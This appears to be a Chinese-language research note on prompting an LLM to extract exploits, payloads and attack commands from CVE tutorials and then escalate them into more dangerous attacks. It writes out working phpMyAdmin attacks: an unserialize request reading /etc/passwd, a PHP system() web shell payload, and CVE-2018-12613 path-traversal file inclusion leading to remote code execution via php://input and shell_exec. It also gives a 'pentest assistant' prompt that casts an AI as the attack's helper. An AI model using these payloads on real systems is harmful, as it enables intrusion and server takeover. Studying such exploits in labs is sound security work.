

# 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025

  
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  - phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```
